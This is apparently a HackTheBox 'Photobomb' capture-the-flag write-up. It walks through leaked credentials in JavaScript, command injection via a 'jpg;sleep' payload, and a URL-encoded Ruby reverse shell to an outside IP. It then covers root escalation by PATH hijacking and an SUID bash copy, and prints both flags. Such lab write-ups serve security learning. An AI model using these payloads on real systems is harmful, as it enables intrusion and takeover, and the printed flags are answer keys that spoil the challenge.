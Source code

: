 ```yaml
---
title: "HTB: Photobomb"
date: 2023-01-11T14:15:25+08:00
draft: false
author: "Jack Sun"
tags:
  - CTFs
  - Writeups
  - HackTheBox
  - Cybersecurity
image: /images/writeups/HTB/photobomb/banner.png
---
```


## Description

- 20 pts, Easy
- Written by `slartibartfast`

## User Flag

First thing first, add an entry to the `/etc/hosts` file with

```sh
echo "<ip address> photobomb.htb" >> /etc/hosts
```

Running nmap on the domain, we can see that there are 2 ports exposed:

- Web server on port 80
- SSH on 22

![nmap](/images/writeups/HTB/photobomb/nmap.png)

Checking out the web server on port 80, we are greeted with the website for a photo printing service called Photobomb.

![Click Here](/images/writeups/HTB/photobomb/index.png)

There is a link called `click here!` on the website, which points to another webpage. However this route is protected by a login form.

![Login](/images/writeups/HTB/photobomb/login.png)

Without the credentials, we are greeted with a `401` NGINX error page.

Checking out the the source code, we find a javascript file called `photobomb.js` containing the following:

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

From this, we find the tech support credentials: `pH0t0:b0Mb!`, which we can manually enter into the login form or use the url `http://pH0t0:b0Mb!@photobomb.htb/` to automatically authenticate ourselves.

Unfortunately, I note here that the tech support credentials do not work for the SSH service that we found earlier through the nmap scan.

Anyways, now that have the tech support logins, we can navigate to the `/printer` route. Upon inspection, there is a download form at the bottom that allows for the selected image to be resized and downloaded.

Let's fire up Burp Suite and intercept that download request!

![Burp](/images/writeups/HTB/photobomb/burp.png)

We can see that the request uses the `POST` method. The URL encoded form data contains 3 parameters:

- `photo`
- `filetype`
- `dimensions`

I initially tried to manipulate the `photo` parameter in hopes of getting some form of path traversal or arbitrary file read, however, this proved unsuccessful.

I noted that if I sent a blank request, the server would return a debug page.

![blank_request](/images/writeups/HTB/photobomb/blank_request.png)

![error](/images/writeups/HTB/photobomb/error.png)

From this, I was able to determine that the server is running the Sinatra Ruby framework. I then tried searching for CVEs related to Sinatra to no success.

After sending the request to Burp Repeater and fuzzing all the parameters, I noticed that the server was returning a `500` error code when certain characters such as `'`, `"`, `$`, `;` were added after jpg in the `filetype` parameter. This could be an indication of a Remote Code Execution vulnerability.

This hypothesis can be tested by sending a test URL encoded payload such as `jpg;sleep%20100` on the filetype parameter. After sending the payload, we can see that the request takes a long time to complete, eventually timing out, thus confirming that our payload is being executed on the server and that a Remote Code Execution vulnerability exists.

Next, we will try to pop a reverse shell on the server so we can capture the user flag. I went to [revshells.com](https://www.revshells.com/) and tried a few payloads. Of course, we must URL Encode the payload as we are sending it as a form parameter. The `Ruby #1` payload seemed to work in this instance:

```ruby
ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.XX.XX.XX%22%2C4444%29%29%27
```

After starting a reverse shell listener on my machine, I sent the payload to the server and after a while, I caught a reverse shell. Running `whoami`, we can see that we have taken over the account of `wizard`.

![whoami](/images/writeups/HTB/photobomb/whoami.png)

Next we can upgrade the shell to a TTY with python. `python -c 'import pty; pty.spawn("/bin/bash")'` complained that python was not installed. I tried again with `python3` and it worked.

![upgrade](/images/writeups/HTB/photobomb/upgrade.png)

After changing into the home directory via `cd ~`, we find a file called `user.txt` containing the user flag.

![user flag](/images/writeups/HTB/photobomb/userflag.png)

User flag: `c2b4e704eecdabe4cba7c012ce9c8fe6`

## Root Flag

Running `sudo -l`, we see that `wizard` can run a peculiar script `/opt/cleanup.sh` as root without a password.

![sudo](/images/writeups/HTB/photobomb/sudo.png)

Catting out the contents of the script gives us the following:

```sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Immediately, I noticed that `find` is not called explicitly with its full path like the other commands. This is vulnerable to a `PATH` variable manipulation attack. We can inject a malicious path into the PATH variable before `/usr/bin` containing a malicious script called `find`. Then, when we execute `/opt/cleanup.sh`, it will execute our malicious `find` script instead of the original `find` program in `/usr/bin`.

Inside `/tmp/find`, we can write a simple script to install a privileged bash shell with the SUID bit set in `/tmp` and then run `/opt/cleanup.sh`. I have adapted the installation command from [GTFO Bins](https://gtfobins.github.io/gtfobins/bash/#suid) as below for our purposes:

```sh
install -m =xs $(which bash) /tmp/bash
```

After doing so, we give the script execute permission with `chmod +x ./find`. We can now run `sudo PATH=/tmp:$PATH /opt/cleanup.sh`, which will in turn execute our malicious script.

![install](/images/writeups/HTB/photobomb/install.png)

We can now spawn a root bash shell with `/tmp/bash -p`. Running `whoami` confirms that we are root.

![root](/images/writeups/HTB/photobomb/root.png)

Next, we can navigate to `/root` and capture the root flag.

![root flag](/images/writeups/HTB/photobomb/rootflag.png)

Root flag: `899b78ed71f3a29a23df770acc5ce2fa`
